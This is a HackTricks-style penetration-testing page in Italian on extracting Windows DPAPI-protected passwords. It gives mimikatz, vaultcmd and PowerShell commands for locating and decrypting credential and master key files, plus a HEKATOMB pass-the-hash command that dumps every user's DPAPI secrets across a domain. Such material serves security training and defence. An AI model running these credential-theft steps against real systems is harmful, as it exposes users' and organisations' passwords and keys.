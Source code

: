 # DPAPI - Estrazione delle Passwords

{{#include ../../banners/hacktricks-training.md}}



## Cos'è DPAPI

L'API di Protezione Dati (DPAPI) è utilizzata principalmente all'interno del sistema operativo Windows per la **cifratura simmetrica di chiavi private asimmetriche**, sfruttando segreti utente o di sistema come una fonte significativa di entropia. Questo approccio semplifica la cifratura per gli sviluppatori consentendo loro di cifrare i dati utilizzando una chiave derivata dai segreti di accesso dell'utente o, per la cifratura di sistema, dai segreti di autenticazione del dominio del sistema, eliminando così la necessità per gli sviluppatori di gestire la protezione della chiave di cifratura.

### Dati Protetti da DPAPI

Tra i dati personali protetti da DPAPI ci sono:

- Password e dati di completamento automatico di Internet Explorer e Google Chrome
- Password per e-mail e account FTP interni per applicazioni come Outlook e Windows Mail
- Password per cartelle condivise, risorse, reti wireless e Windows Vault, inclusi i tasti di cifratura
- Password per connessioni desktop remoto, .NET Passport e chiavi private per vari scopi di cifratura e autenticazione
- Password di rete gestite da Credential Manager e dati personali in applicazioni che utilizzano CryptProtectData, come Skype, MSN messenger e altro

## Elenco Vault
```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```
## File di Credenziali

I **file di credenziali protetti** potrebbero trovarsi in:
```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
Ottieni informazioni sulle credenziali utilizzando mimikatz `dpapi::cred`, nella risposta puoi trovare informazioni interessanti come i dati crittografati e il guidMasterKey.
```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```
Puoi usare il **modulo mimikatz** `dpapi::cred` con il corretto `/masterkey` per decrittare:
```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```
## Master Keys

Le chiavi DPAPI utilizzate per crittografare le chiavi RSA dell'utente sono memorizzate nella directory `%APPDATA%\Microsoft\Protect\{SID}`, dove {SID} è il [**Security Identifier**](https://en.wikipedia.org/wiki/Security_Identifier) **di quell'utente**. **La chiave DPAPI è memorizzata nello stesso file della chiave master che protegge le chiavi private degli utenti**. Di solito è composta da 64 byte di dati casuali. (Nota che questa directory è protetta, quindi non puoi elencarla usando `dir` dal cmd, ma puoi elencarla da PS).
```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
Questo è l'aspetto di un gruppo di Master Key di un utente:

![](<../../images/image (1121).png>)

Di solito **ogni master key è una chiave simmetrica crittografata che può decrittografare altri contenuti**. Pertanto, **estrarre** la **Master Key crittografata** è interessante per **decrittografare** successivamente quel **contenuto** crittografato con essa.

### Estrai la master key e decrittografa

Controlla il post [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) per un esempio di come estrarre la master key e decrittografarla.

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) è un porting in C# di alcune funzionalità DPAPI dal progetto [Mimikatz](https://github.com/gentilkiwi/mimikatz/) di [@gentilkiwi](https://twitter.com/gentilkiwi).

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) è uno strumento che automatizza l'estrazione di tutti gli utenti e computer dalla directory LDAP e l'estrazione della chiave di backup del controller di dominio tramite RPC. Lo script risolverà quindi tutti gli indirizzi IP dei computer e eseguirà un smbclient su tutti i computer per recuperare tutti i blob DPAPI di tutti gli utenti e decrittografare tutto con la chiave di backup del dominio.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

Con l'elenco dei computer estratti da LDAP puoi trovare ogni sottorete anche se non le conoscevi!

"Perché i diritti di Domain Admin non sono sufficienti. Hackali tutti."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) può estrarre segreti protetti da DPAPI automaticamente.

## Riferimenti

- [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys&cmd=details&id=28#13)
- [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

{{#include ../../banners/hacktricks-training.md}}
